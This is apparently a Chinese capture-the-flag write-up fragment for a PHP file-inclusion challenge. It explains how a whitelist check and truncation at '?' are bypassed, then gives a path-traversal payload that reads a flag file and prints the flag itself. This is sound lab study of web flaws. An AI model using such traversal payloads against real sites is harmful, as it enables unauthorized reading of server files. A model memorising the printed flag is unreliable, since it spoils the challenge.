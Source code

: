 ```php
  exit;
} else {
  echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}  
?>
```

+ 存在include()函数，尝试直接包含`hint.php`，提示：`<font style="color:rgb(0, 0, 0);">flag not here, and flag in ffffllllaaaagggg</font>`
+ <font style="color:rgb(0, 0, 0);">代码存在两个过滤，1是</font>**<font style="color:rgb(0, 0, 0);">检查有没有数组$whitelist里面的值</font>**<font style="color:rgb(0, 0, 0);">，2</font>**<font style="color:rgb(0, 0, 0);">是截断 ? 前的内容</font>**

<font style="color:rgb(0, 0, 0);">据此可以通过相对路径来尝试读取ffffllllaaaag</font>

<font style="color:rgb(0, 0, 0);">payload：</font>`source.php?file=hint.php?../../../../../ffffllllaaaagggg`

拿到flag：`NSSCTF{cf192782-c907-4599-9025-890311518d4a}`
